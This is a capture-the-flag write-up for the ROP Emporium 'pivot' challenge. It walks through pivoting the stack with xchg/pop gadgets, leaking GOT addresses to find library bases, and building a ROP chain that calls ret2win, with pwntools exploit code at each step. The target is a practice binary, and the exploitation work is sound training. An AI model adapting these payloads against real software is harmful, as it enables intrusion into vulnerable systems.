



# pivot

Link: https://ropemporium.com/challenge/pivot.html

Goal: *There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.*

-----------------------------


The binary tells us an address to pivot, and then asks for the "second chain" and the "stack smash":


Checking it with gdb, the offset is 40 in the case of the second input, and much higher in the first one (we do not calculate it because we will use it, but it will be around 256):




The stack pivot payload should be sent in the second input, and it will jump to execute what we send in the first input. We can check this executing the program with "ltrace" again:


We can check this also using gdb by sending "BBBB" (0x62626262) in the first input and 41 "A" characters in the second input, and then listing the content in the address where the program tells us to jump:   


With vmmap we can see this address (in this case 0x7ffff7be9f10, but it changes every time the program is executed) is located between the heap and the sections of libc-2.29.so (I am not sure why, maybe because then we know it will be all zeros and that section is also writable).


Studying the file, we see it is dynamically linked and it uses functions imported from "libpivot.so" file:


In the file libpivot.so we can find the addresses of the 2 functions we need:

- 0000000000000abe: "<ret2win>"
- 0000000000000970: "<foothold_function>"

The offset between them is 0x14e.


And in the file pivot only one of them, *foothold_function()*:

-   400850:	ff 25 f2 17 20 00    	jmpq   0x2017f2(%rip)        # 602048 <foothold_function>


So the address of *foothold_function()* in .plt section is 0x400850 and in .plt.got section is 0x602048.


## 1. Stack pivoting

From [this blog](https://trustfoundry.net/basic-rop-techniques-and-tricks/), we know that *a stack pivot involves modifying the value of the RSP register to point to somewhere else in memory under your control. Modifying the stack pointer will cause the program to believe that wherever RSP is pointing to is now the new stack, and it’ll continue executing whatever’s next in memory in that new location. This means that if there’s somewhere else in memory that offers plenty of space for a ROP chain, you can use your limited space to employ gadgets that will modify the RSP register and cause it to point to the rest of your ROP chain, which will then be executed. (...) The most obvious method of achieving a stack pivot is to use your constrained space for a gadget like pop RSP; ret, which offers easy control of the stack pointer.*


We will use ROPgadget to find a convenient gadget with:

```
python /root/tools/ROPgadget/ROPgadget.py --binary pivot | grep "pop rsp"
```

We find only one:

- 0x0000000000400b6d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

However, the challenge description states there is only space for a three-link chain, so we need to find other way of modifying the value of RSP. In the last challenge (fluff) we used the instruction XCHG, which we may use in this case to exchange the value of RAX and RSP, given that we can control easily RAX with a one-link "pop; ret" gadget:

- 0x0000000000400b02 : xchg rax, rsp ; ret

- 0x0000000000400b00 : pop rax ; ret

So first we will parse the output until the character ">" to get the address to jump to:

``` 
received = p.recvuntil("> ")
pivot_address = received.split("pivot: ")[1].split("\n")[0]
log.info("Pivoting to address "+pivot_address)
```

And then we will send the stack pivot payload, setting RSP to the parsed value using the last two gadgets we found:

```
pivot_address_hexa = int(pivot_address, 16)
xchg_rax_rsp = 0x400b02
pop_rax =      0x400b00
stack_pivot = "A" * 40 + p64(pop_rax) + p64(pivot_address_hexa) + p64(xchg_rax_rsp)
p.sendline(stack_pivot)
```

With this, the RSP value should be the parsed value, so the instructions sent in the first input should get executed


--------------------------------------

## 2. Leaking addresses

First we will call the function because the ROP Emporium page states that *"foothold_function() isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry"*.

Then, we will use the PUTS function to print in the console the address of foothold_function() in .got.plt section:

```
rop1 += p64(foothold_function_PLT) + p64(MAIN_PLT)
rop1 += p64(foothold_function_PLT) + p64(pop_rdi) + p64(foothold_function_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```
In a similar way, we can print the address of the function puts() in .got.plt section:

```
rop1 += p64(foothold_function_PLT) + p64(MAIN_PLT)
rop1 += p64(foothold_function_PLT) + p64(pop_rdi) + p64(puts_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
```

We see that something gets printed! 


After testing in the different parts of the program, the leak seems to return after sending the second input, the "stack_pivot" one. So we will grab and parse the leak address with these commands:

```
p.sendline(stack_pivot)
recv = p.recvline()
leaked_address = recv.replace("\n","").replace("> ","").ljust(8, "\x00")
log.info("leaked_address  %s" % (leaked_address))
```

With this I can get the base address of ".so" file (*libpivot.so* or *libc.so.6*). For example with the "puts" leaked address we can get the *libc.so.6* real address with:

```
libc_so = ELF("/lib/x86_64-linux-gnu/libc.so.6")

libc_so.address = u64(leaked_address) - libc_so.symbols["puts"]
log.info("libc base @ %s" % hex(libc_so.address))
```


We can check this attaching the process with GDB, setting a breakpoint in main function and executing "vmmap". We got it!



You can test this with the file *leak_addresses_libc.py*. To test it with GDB uncomment the line 6 (*# gdb.attach(p, 'break main')*)


Or we can get the *libpivot.so* base address and the *ret2win* function address with:

```
libc_pivot = ELF("libpivot.so")

libc_pivot.address = u64(leaked_address) - libc_pivot.symbols["foothold_function"]
ret2win = libc_pivot.sym["ret2win"]
log.info("libpivot.so base address: %s" % hex(libc_pivot.address))
log.info("ret2win address:          %s" % hex(ret2win))
```



We can check this attaching the process with GDB, setting a breakpoint in main function and executing "vmmap". We got it!


You can test this with the file *leak_addresses_libpivot.py*. To test it with GDB uncomment the line 6 (*# gdb.attach(p, 'break main')*)

--------------------------------------

## 3. Calling ret2win

We have leaked the addresses but it is not possible to reuse the value because the program finishes. So we will try to call the function *ret2win()* once the .got.plt section is loaded.

For that, we will use these gadgets, which will allow us to call the function:


1. Move the address of *foothold_function()* in .got.plt to RAX moving the address to RAX and then moving RAX to the address it is pointing to with the gadgets:

- 0x0000000000400b00 : pop rax ; ret

- 0x0000000000400b05 : mov rax, qword ptr [rax] ; ret

2. Move 0x14e (the offset between *foothold_function()* and *ret2win()*) to RBP and add RBP to RAX with the gadgets:

- 0x0000000000400900 : pop rbp ; ret
- 0x0000000000400b09 : add rax, rbp ; ret

3. Call RAX:

- 0x000000000040098e : call rax


The ROP is then:

```
rop  = ""
rop += p64(foothold_function_PLT)
rop += p64(pop_rdi) + p64(foothold_function_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
rop += p64(pop_rbp) + p64(0x14e)
rop += p64(pop_rax) + p64(foothold_function_GOT)
rop += p64(mov_rax_rax)
rop += p64(add_rax_rbp)
rop += p64(call_rax)
p.sendline(rop)
```

Executing it, it shows the content of the flag and the offset of the *libpivot.so* file:


---------------

References:

- https://trustfoundry.net/basic-rop-techniques-and-tricks/

- http://neilscomputerblog.blogspot.com/2012/06/stack-pivoting.html#:~:text=Stack%20Pivoting,%22%20using%20attacker%2Dspecified%20values.&text=Semantically%20this%20means%20that%20ESP,is%20the%20instruction%20pointer%20register

- https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/fancy-rop/

